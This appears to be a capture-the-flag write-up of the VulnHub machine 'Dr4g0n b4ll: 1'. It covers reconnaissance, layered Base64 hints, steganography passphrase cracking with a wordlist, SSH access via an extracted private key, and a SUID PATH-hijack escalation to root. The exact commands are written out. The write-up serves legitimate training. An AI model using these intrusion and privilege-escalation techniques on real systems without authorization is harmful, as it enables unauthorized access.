






# Dr4g0n b4ll: 1 — VulnHub

> Note: Flags were partially redacted to preserve scoreboard integrity.

## 1. Identification

| Field                | Value                                                                |
|----------------------|----------------------------------------------------------------------|
| Machine name         | Dr4g0n b4ll: 1                                                       |
| Platform             | VulnHub                                                              |
| Author (CTF)         | mr_xmen                                                              |
| Theme                | Dragon Ball — homepage featuring Goku                                |
| Target IP (lab)      | 10.0.0.34                                                            |
| Goal                 | Get a user shell (`xmen`) and the root flag                          |
| Documentation status | Redone and documented locally (screenshots + own outputs)            |

## 2. Initial reconnaissance

### 2.1 Homepage

Before any scan, I opened the IP in the browser to confirm it was alive and to get thematic context.



The page confirms three useful things: the server is responding on HTTP, the author identifies as Aj, and the theme is Dragon Ball — that word will resurface later as a hint, so I noted it down right away.

### 2.2 Nmap

Full TCP-port scan with version and OS identification:

```bash
nmap -A -p- 10.0.0.34
```

Output transcribed from the local file:

```
Nmap scan report for 10.0.0.34
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp open ssh       OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|    2048 b5:77:4c:88:d7:27:54:1c:56:1d:48:d9:a4:1e:28:91 (RSA)
|    256 c6:a8:c8:9e:ed:0d:67:1f:ae:ad:6b:d5:dd:f1:57:a1 (ECDSA)
|_ 256 fa:a9:b0:e3:06:2b:92:63:ba:11:2f:94:d6:31:90:b2 (ED25519)
80/tcp open http      Apache httpd 2.4.38 ((Debian))
|_http-title: DRAGON BALL | Aj's
|_http-server-header: Apache/2.4.38 (Debian)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4
OS details: Linux 4.19 - 5.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1    76.70 ms 10.0.1.1
2    76.91 ms 10.0.0.34
```

Immediate conclusion: only 22/tcp (SSH) and 80/tcp (HTTP) are open. Without SSH credentials and no other ports, the initial vector has to come from HTTP.

## 3. Web enumeration

### 3.1 Homepage source

I went back to the page to inspect the HTML, looking for embedded clues (comments, attributes, scripts).

On line 647 I found a comment of the form:

```html
<! VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 >
```

The fact that it's a string ending in `==` with characters in `[A-Za-z0-9+/=]` points to Base64.

### 3.2 Decoder in Burp — 3× Base64

I pasted the string into Burp Suite's Decoder and applied `Decode as → Base64` successively.

Chain visible in the decoder:

```
VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09          (layer 1)
UkZKQlIwOU9JRUpCVEV3PQ==                   (layer 2)
RFJBR09OIEJBTEw=                           (layer 3)
DRAGON BALL                                (final text)
```



The final hint is `DRAGON BALL` — likely the name of a hidden directory on the server (the page intentionally goes by that name, and the theme reinforces it).

### 3.3 Feroxbuster

In parallel I ran directory brute-forcing to validate that `robots.txt` or other endpoints existed:

```bash
$ feroxbuster -u http://10.0.0.34/ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

Useful scan results:

```
200   GET   673l   441w   4355c   http://10.0.0.34/
200   GET     1l     1w     33c   http://10.0.0.34/robots.txt
```

Only the homepage and `robots.txt` come back as `200`. `robots.txt` is clearly worth investigating.

### 3.4 robots.txt

File contents:

```
eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=
```

Another Base64 string — this time only a single layer.



`robots.txt` confirms the theory: a hidden directory exists, and the earlier hint gives its name — `DRAGON BALL`.

### 3.5 Hidden directory

```
http://10.0.0.34/DRAGON%20BALL/
```

Inside `DRAGON BALL/` there is a `Vulnhub/` subfolder. I went in.

Two targets:

- `aj.jpg` — an image, obvious candidate for steganography.
- `login.html` — static-only content, no useful fields (reviewed in source). I proceed with the image.

## 4. Exploitation — steganography + SSH

### 4.1 View and download the image

Local download:

```bash
wget http://10.0.0.34/DRAGON%20BALL/Vulnhub/aj.jpg
```



### 4.2 Direct attempt with steghide

Command:

```bash
steghide extract -sf aj.jpg
# Enter passphrase: _
```

Without a passphrase, the extract goes nowhere. I had no textual hint for the passphrase, so I moved to brute-force.

### 4.3 Brute-force the passphrase with stegcracker

```bash
stegcracker aj.jpg /usr/share/wordlists/rockyou.txt
```

Result:

```
Successfully cracked file with password: love
Tried 387 passwords
Your file has been written to: aj.jpg.out
love
```

The passphrase is `love` and the extraction already created `aj.jpg.out` on disk. I didn't need to re-run steghide manually.

### 4.4 Extracted content — SSH private key

The file is an OpenSSH RSA private key. Combined with SSH open on port 22 and the machine's theme (`mr_xmen`), the logical target user is `xmen`.

### 4.5 SSH login as xmen

```bash
chmod 600 aj.jpg.out
ssh -i aj.jpg.out xmen@10.0.0.34
```

Banner:

```
Linux Dr4gonB4ll 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
Last login: Sat May 9 00:44:03 2026 from 10.0.1.4
xmen@Dr4gonB4ll:~$
```

Login OK — I'm in as `xmen`.

## 5. Post-exploitation

### 5.1 User home

```bash
xmen@Dr4gonB4ll:~$ ls -la ~/
total 36
drwxr-xr-x 4 xmen xmen 4096 Jan     5 2021 .
drwxr-xr-x 3 root root 4096 Jan     4 2021 ..
-rw------- 1 xmen xmen 831 May      9 00:52 .bash_history
-rw-r--r-- 1 xmen xmen 220 Jan      3 2021 .bash_logout
-rw-r--r-- 1 xmen xmen 3526 Jan     3 2021 .bashrc
-rw-r--r-- 1 xmen xmen   43 Jan     2 2021 local.txt
-rw-r--r-- 1 xmen xmen 807 Jan      3 2021 .profile
drwxr-xr-x 2 root root 4096 Jan     4 2021 script
drwx------ 2 xmen xmen 4096 Jan     4 2021 .ssh

xmen@Dr4gonB4ll:~$ cat local.txt
your falg :192f...[REDACTED]...d555
```

Two important details:

- `local.txt` already gives me the user flag — `192f...[REDACTED]...d555`.
- The `script/` folder inside `xmen`'s home is owned by root (`drwxr-xr-x 2 root root`). That kind of permission asymmetry inside a user's home is usually exactly the CTF's privesc vector — worth a look.

### 5.2 Hunt for SUID binaries

```bash
xmen@Dr4gonB4ll:~$ find / -perm -4000 -type f 2>/dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keygen
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```

Almost all of the list is the standard Debian baseline. The entry that stands out is `/home/xmen/script/shell` — a SUID binary inside the user's home. That's the target.



## 6. Privilege escalation — PATH hijack

### 6.1 Binary analysis

The `script/` folder contained the `shell` binary and, as typical in this CTF, the source alongside. The relevant detail is that, while running SUID root, it invokes an external command without an absolute path (something like `system("ps")`). That means the shell it spawns will look up `ps` via `$PATH`, and if I control `$PATH` I can make it execute anything with root privileges.

### 6.2 Exploitation

Exact sequence, transcribed from the screenshot:

```bash
xmen@Dr4gonB4ll:~$ cd /home/xmen
xmen@Dr4gonB4ll:~$ cat > ps <<'EOF'
> #!/bin/bash
> /bin/bash -p
> EOF
xmen@Dr4gonB4ll:~$ chmod +x ps
xmen@Dr4gonB4ll:~$ # Put /home/xmen first in PATH
xmen@Dr4gonB4ll:~$ export PATH=/home/xmen:$PATH
xmen@Dr4gonB4ll:~$ # Run the SUID binary
xmen@Dr4gonB4ll:~$ /home/xmen/script/shell
```


Logic:

1. The `shell` binary starts with EUID=0 (SUID root).
2. Keeps the privilege (typical pattern: `setuid(0); setgid(0);` before calling `system`).
3. When it invokes `ps` without an absolute path, the shell searches `$PATH`.
4. `$PATH` has been rewritten so `/home/xmen` comes first.
5. The `ps` found is my script, which executes `bash -p` — `-p` keeps bash from resetting the effective UIDs, preserving the inherited EUID=0.

Result: root shell.

### 6.3 Root confirmation and flag capture

```bash
root@Dr4gonB4ll:~# ls
proof.txt
root@Dr4gonB4ll:~# cat proof.txt
  _____ __________
/       \\______   \          ___ ___ _____     ____    ____
/ \ / \|           _/         \ \/ //       \_/ __ \ /       \
/     Y      \   |    \        >   <| Y Y \ ___/|         | \
\____|__ /____|_ /__________/__/\_ \__|_| /\___ >___| /
          \/       \/_____/_____/    \/      \/      \/        \/

join channel:    https://t.me/joinchat/St01KnXzcGeWMKSC

your flag: 031f...[REDACTED]...b3e2
```



Root flag captured.

## 7. Flags

| Type | Path                  | Value                              |
|------|-----------------------|------------------------------------|
| User | `/home/xmen/local.txt` | `192f...[REDACTED]...d555` |
| Root | `/root/proof.txt`      | `031f...[REDACTED]...b3e2` |

Both present in the local screenshots.

## 8. Attack summary

1. Browser to `http://10.0.0.34/` → "DRAGON BALL" theme, author "Aj".
2. `nmap -A -p-` → only 22 (SSH) and 80 (HTTP) open.
3. View-source of homepage → Base64 comment on line 647.
4. Burp Decoder: 3× Base64 → `DRAGON BALL`.
5. `feroxbuster` → confirms `/robots.txt`.
6. `/robots.txt` → another Base64 → "you find the hidden dir".
7. `/DRAGON BALL/` → `Vulnhub/` subfolder with `aj.jpg` + `login.html`.
8. `wget aj.jpg` + `steghide extract -sf aj.jpg` → asks for passphrase.
9. `stegcracker aj.jpg rockyou.txt` → passphrase `love` → produces `aj.jpg.out`.
10. `aj.jpg.out` is an OpenSSH private key.
11. `chmod 600 aj.jpg.out && ssh -i aj.jpg.out xmen@10.0.0.34` → shell as `xmen`.
12. `cat local.txt` → user flag.
13. `find / -perm -4000` → anomalous SUID `/home/xmen/script/shell`.
14. PATH hijack: fake `ps` in `/home/xmen`, `export PATH=/home/xmen:$PATH`, run the SUID → root shell.
15. `cat /root/proof.txt` → root flag.

## 9. Technical lessons

- Chained Base64 as trivial obfuscation: trailing `==` and the restricted charset are enough to identify; when one layer returns another Base64-like string, trying additional layers is the right reflex.
- Anything named `robots.txt` in a CTF is mandatory reading — even when it has only one line.
- Apache directory listing + themed names in the URL (`DRAGON BALL`, `Vulnhub`) are usually how authors "hide" content: no real filter, just obscurity.
- JPEG steganography with a rockyou-class passphrase: `stegcracker` / `stegseek` solve it in seconds; worth trying before assuming the image has nothing.
- SSH keys in the stego payload pair directly with SSH open + a username inferred from the theme.
- SUID + `system()` without an absolute path is the classic PATH hijacking pattern. The signal is easy to read: a SUID binary inside a home, especially in a subfolder owned by root.
- `bash -p` is the detail that often gets missed in one-liners: without `-p`, bash drops EUID and the privesc fails.
